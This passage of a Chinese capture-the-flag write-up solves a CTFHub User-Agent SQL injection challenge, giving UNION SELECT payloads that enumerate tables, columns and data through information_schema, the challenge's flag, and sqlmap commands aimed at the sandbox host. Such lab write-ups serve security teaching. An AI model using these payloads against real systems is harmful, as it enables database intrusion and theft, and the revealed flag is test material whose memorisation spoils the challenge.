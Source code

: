 `group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，用以下代码能够查询到指定数据库的表信息：

```sql
-1 union select 1, group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/2.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，可以看到有个表叫`ulxbfmsgqx`，我们可以去查询该表的列信息：

```sql
-1 union select 1, group_concat(column_name) from information_schema.columns where table_name='ulxbfmsgqx'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/3.png)

最后输入以下代码根据`zpmjyijptn`字段可以查询到该字段的数据：

```sql
-1 union select 1, group_concat(zpmjyijptn) from sqli.ulxbfmsgqx
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/4.png)

提交`ctfhub{85809c1cc35e607a1b7fed0a}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/5.png)

------

**解法2：**`sqlmap`

`sqlmap`中有一个参数是`--level`，表示探测等级，其默认值为`1`，`level>=2`时会检测`Cookie`注入，`level>=3`时会检测`User-Agent`注入和`Referer`注入，`level>=5`时会检测`host`注入。以下代码可以爆破出当前网站中的所有数据库：

```bash
sqlmap -u "http://challenge-c89ea44d56d68a09.sandbox.ctfhub.com:10800/" --level 3 --dbs
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/6.png)

爆破出当前数据库的名字：

```bash
sqlmap -u "http://challenge-c89ea44d56d68a09.sandbox.ctfhub.com:10800/" --level 3 --current-db
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/7.png)

得到数据库名`sqli`后继续爆破表信息：

```sql
sqlmap -u "http://challenge-c89ea44d56d68a09.sandbox.ctfhub.com:10800/" --level 3 -D sqli --tables
```
